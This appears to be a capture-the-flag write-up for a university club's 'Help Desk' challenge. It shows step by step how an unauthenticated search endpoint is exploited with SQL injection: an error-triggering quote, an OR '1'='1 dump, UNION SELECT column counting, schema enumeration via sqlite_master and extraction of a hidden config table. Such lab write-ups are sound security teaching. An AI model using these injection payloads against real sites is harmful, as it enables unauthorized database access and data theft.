





**Challenge:** https://ctf.urisc.club/challenges#Help%20Desk-21

**Goal:** The AussieMed Help Centre is open to everyone, search our knowledge base for whatever you need. No login required.

**Flag:**
- `SRCTF!{uN10N_S3L3CT_h34ls_4ll_w0unds}` - in the `system_config` table

---

## Vulnerability

The `/help/` search endpoint interpolates the `q` parameter directly into an SQLite query with no sanitisation. Because the endpoint is unauthenticated and the error messages are verbose, it is trivially injectable and enumerable.
Usually, I'd just show the finalised exploit, but I think for this one going step by step is more helpful.

## Attack Path

### 1. Confirm injection

Submitting a bare single-quote breaks the SQL query and leaks a raw SQLite error:

```
GET /help/?q='
```

```
Search error: unrecognized token: "'"
```

The error means the input is unsanitised and goes straight into a SQL statement.


### 2. Confirm OR dump

`OR '1'='1` returns every row in the help articles table, which means exfiltration works.

```
GET /help/?q=' OR '1'='1
```

All 5 help articles are returned.


### 3. Determine column count with UNION SELECT

```
GET /help/?q=' UNION SELECT 1,2,3--
```

A row with 3 columns appears (title, category, content).


### 4. Enumerate the database schema

```
GET /help/?q=' UNION SELECT name,sql,3 FROM sqlite_master--
```

Two tables are disclosed:

`system_config` is not linked anywhere on the site.

### 5. Dump system_config

```
GET /help/?q=' UNION SELECT config_key,config_value,3 FROM system_config--
```


---
Revealed clearly in `faq_flag`!

## Notes

- When you discover that a target application is using SQLite, `sqlite_master` is usually the first database object you want to inspect because it contains information about the database's structure.